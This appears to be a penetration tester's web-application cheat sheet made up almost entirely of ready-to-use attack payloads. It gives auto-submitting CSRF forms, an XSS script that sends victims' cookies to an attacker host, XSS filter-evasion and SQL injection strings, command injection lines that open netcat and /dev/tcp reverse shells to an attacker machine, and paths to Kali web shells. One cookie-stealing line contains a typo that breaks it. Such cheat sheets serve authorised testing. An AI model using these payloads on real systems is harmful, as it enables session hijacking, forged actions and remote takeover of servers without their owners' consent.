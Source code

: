 ```yaml
---
title: Vulnerabilities
category: Web Application
order: 2
---
```


> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **SQL Injection Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}
{% endhighlight %}

{% highlight html %}
<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 
{% endhighlight %}

> **Web Shells**

Kali:
PHP | /usr/share/webshells/php/
PERL | /usr/share/webshells/perl/
Cold Fusion | /usr/share/webshells/cfm/
ASP | /usr/share/webshells/asp/
ASPX | /usr/share/webshells/aspx/
JSP | /usr/share/webshells/jsp/jsp-reverse.jsp

* [PHP and Perl](http://pentestmonkey.net/category/tools/web-shells)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **Useful Resources**

* [XSS, SQL, LDAP, XPATH, XML Injection Test Strings](https://www.owasp.org/index.php/OWASP_Testing_Guide_Appendix_C:_Fuzz_Vectors)
* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
* [Informix, MSSQL, Oracle, MySQL, Postgres, DB2, Ingres SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet)
* [Access Injection Cheat Sheet](http://nibblesec.org/files/MSAccessSQLi/MSAccessSQLi.html)
* [SQLMap](http://http/sqlmap.org)

